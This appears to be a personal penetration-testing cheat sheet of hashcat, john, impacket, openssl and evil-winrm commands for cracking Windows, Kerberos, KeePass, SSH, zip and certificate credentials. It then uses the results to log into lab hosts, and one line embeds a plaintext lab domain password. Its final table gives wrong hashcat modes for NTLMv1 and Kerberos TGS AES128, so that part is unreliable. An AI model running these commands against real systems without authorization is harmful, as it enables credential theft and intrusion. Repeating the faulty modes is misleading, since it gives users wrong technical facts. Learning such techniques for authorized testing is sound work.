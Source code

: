 Look up hash type here https://hashcat.net/wiki/doku.php?id=example_hashes

Can use john to figure out hash type automatically:
```
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hash.txt
```

NTLM w hashcat
```
hashcat -m 1000 hash_admin.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

NTLMv2 w hashcat
```
hashcat -m 5600 -a 0 -o cracked.txt --force hash_147.txt /usr/share/wordlists/rockyou.txt
```

Database.kdbx w hashcat
`Keepass2john Database.kdbx > keepass.hash`
- remove "Database:" from beginning of hash, or whatever the filename: of the kdbx is
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
or
```
john keepass.hash -w:/usr/share/wordlists/rockyou.txt
```
can also open kdbx with kpcli if you have password
```
kpcli --kdb passwords.kdbx
```
- or can just run `kpcli` and once in kpcli run `open passwords.kdbx` and it will ask for the password
- from there `ls` and `cd` through the groups until you see an entry. to see info:
	- `show -f 0` for entry 0
	- `show -f 1` for entry 1


Keepass .dmp file
```
python keepass_dump.py -f KeePassDumpFull.dmp
```
- from https://github.com/z-jxy/keepass_dump
- will extract as many letters from the keepass master password as it can find
- try googling the rest to fill in the blanks


Converting putty key to openssh
- copy everything starting with "PuTTY-User-Key-File-3: ssh-rsa" and the whole key into a file named `root-putty.key`
	- remove all spaces before each line in vim `%s/^\s\+//`
```
puttygen root-putty.key -O private-openssh -o keeper-root
```
- then ssh with key:
```
ssh -i keeper-root root@10.129.215.139
```


asrep roast w hashcat
`proxychains -q impacket-GetNPUsers -dc-ip 172.16.145.6 -request -outputfile hashes.asreproast relia.com/jim:"Castello1\!"`
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

office2john

zip with john
`zip2john sitebackup3.zip > zip3.hash`
```
john --wordlist=/usr/share/wordlists/rockyou.txt zip3.hash
```
`john zip3.hash --show`

ssh with john
`ssh2john id_ecdsa > anita.hash`
```
john --wordlist=/usr/share/wordlists/rockyou.txt anita.hash
```
`ssh -i ./id_ecdsa anita@192.168.164.245 -p 2222`

pfx2john
```
pfx2john legacyy_dev_auth.pfx > pfx.hash
```
crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash
```

pem2john
```
pem2john ./privkey.pem > hash.txt
```
crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

use password to extract keys and certificate
```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
```
- it will ask for password and PEM pass phrase (make up pass phrase here: 4+ characters)
decrypt password:
```
openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth_decoded.key
```
dump the certificate:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
connect with key and cert:
```
evil-winrm -i 10.129.98.245 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```


Password generating
```
crunch 6 6 -t Lab%%% > wordlist
```
- minimum and maximum length to 6 characters
- specify the pattern using the -t parameter
- then hard-code the first three characters to 'Lab' followed by three numeric digits

Kerberoasting
- ex: $krb5tgs hash from GetUsersSPNs.py
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- use https://hashcat.net/wiki/doku.php?id=example_hashes to search hash types
- in vim
	- `:%s/\s\+//g`
		- removes all spaces
	- `:%s/\n//g`
		- joins all lines to a single line

create a sub-wordlist from rockyou containing all words with ninja:
```
grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja
```
- useful if there's a hint at what the password is, speed up cracking

## 🔓 AD Hash Cracking Cheat Sheet

| **Hash Type**         | **Example Hash**         | **John Command**                                          | **Hashcat Command**                                  |
| --------------------- | ------------------------ | --------------------------------------------------------- | ---------------------------------------------------- |
| LM                    | `299bd128c1101fd6`       | `john --format=lm hash.txt --wordlist=rockyou.txt`        | `hashcat -m 3000 -a 0 hash.txt rockyou.txt`          |
| NT                    | `b4b9b02e6f09a9bd760...` | `john --format=nt hash.txt --wordlist=rockyou.txt`        | `hashcat -m 1000 -a 0 hash.txt rockyou.txt`          |
| NTLMv1                | `user::85D5BC...`        | `john --format=netntlm hash.txt --wordlist=rockyou.txt`   | `hashcat -m 1000 -a 0 hash.txt rockyou.txt`          |
|                       |                          | `crack.sh`                                                |                                                      |
| NTLMv2                | `user::N46i5NEk...`      | `john --format=netntlmv2 hash.txt --wordlist=rockyou.txt` | `hashcat -m 5600 -a 0 hash.txt rockyou.txt`          |
| Kerberos 5 TGS        | `krb5tgs$23$...`         | `john --format=krb5tgs hash.txt --wordlist=rockyou.txt`   | `hashcat -m 13100 -a 0 hash.txt rockyou.txt`         |
| Kerberos 5 TGS AES128 | `krb5tgs$17$...`         |                                                           | `hashcat -m 18200 -a 0 hash.txt rockyou.txt`         |
| Kerberos ASREP        | `krb5asrep$23$...`       |                                                           | `hashcat -m 18200 -a 0 hash.txt rockyou.txt`         |
| MSCache 2 (very slow) | `SDCC2$10240...`         |                                                           | `hashcat -m 2100 -a 0 hash.txt rockyou.txt`          |
| TimeRoast             | `$sntp-mss-...`          |                                                           | `hashcat -m 31300 -a 3 hash.txt -w 3 ?l?l?l?l?l?l?l` |
| PXE Hash              | `$sccm$aes128$...`       |                                                           | `hashcat -m 19850 -a 0 hash.txt rockyou.txt`         |
